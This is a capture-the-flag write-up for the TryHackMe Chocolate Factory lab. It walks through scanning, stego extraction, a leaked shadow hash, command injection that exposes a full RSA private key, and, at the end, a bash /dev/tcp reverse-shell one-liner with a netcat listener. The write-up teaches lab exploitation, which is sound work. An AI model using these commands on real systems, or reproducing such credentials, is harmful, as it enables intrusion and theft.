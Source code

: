 # Chocolate Factory themed CTF writeup | Tryhackme.com



First scan the machine with nmap:
nmap -A -T5 -v <**ip**>

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap1.png)

![nmap1](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/nmap2.png)  

The open ports:

- 21 - ftp
- 22 - ssh
- 80 - http 
- 100, 106, 109, 110, 111, 113, 119, 125 - these TCP ports display the same banner.

Anonymous FTP login is allowed so let’s try that and see what we find

![ftp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/ftp.png)

Download gum_room.jpg to our machine. Maybe there is something hidden behind this picture. 
We can find it out with steghide.

Use: steghide extract -sf <**file**>

![steghide](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/steghide.png)

The txt seems to be a base64 encoded text so let’s decode it in the terminal\
` cat b64.txt | base64 -d `

It seems to be an etc/shadow file and there is a user named charlie\
*charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::*


Let’s find the subdomains using gobuster\
`gobuster dir -u http://<ip>/ -w /usr/share/dirb/wordlists/common.txt -x php,html,sh,txt`

![gobuster](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/gobuster1.png)

First check out **Index.html**. \ **Home.php** also seems interesting, let’s navigate there aswell.

Index.html is a login page, let’s see the source code.
![index](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/website_indexhtml.png)

Index.html is a login page, let’s see the source code.

![src_code](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/source_code.png)

**Validate.php:**

<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>
Validate


Now to the interesting part: **home.php**

![homephp](https://github.com/varkolyd/ctf_writeups/blob/main/THM%20-%20Chocolate%20Factory/Images/homephp.png)

There is a command injection page in here. Let’s try a few

`ls:`

    home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 

    So there is a key in this directory. Let’s see what it has.

`cat key_rev_key`

    copy it and echo to terminal to see it better 

    Enter your name: %slaksdhfas congratulations you have found the key: b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' Keep its safeBad name!

    See other directories aswell.

`pwd:`

    /var/www/html

`ls /home`

    user named charlie

`ls /home/charlie`

    teleport teleport.pub user.txt

user.txt is not readable
teleport.pub is the ssh public key and teleport is the private key


`cat /home/charlie/teleport`

 `-----BEGIN RSA PRIVATE KEY----- MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW 1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9 zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2 EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19 znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg 82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK 37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
 -----END RSA PRIVATE KEY-----`


Let’s save it to a txt file.
The format is bad, can’t decrypt with john and can’t connect to ssh so let’s find an alternative way, if we don’t want to spend time finding the right format.


Alternative way:
Reverse shell

on attacker machine
`nc -nvlp 4444`

on webserver’s command line
`bash -c 'exec bash -i &>/dev/tcp/{IP}/4444 <&1'`


##### author: Dániel Varkoly
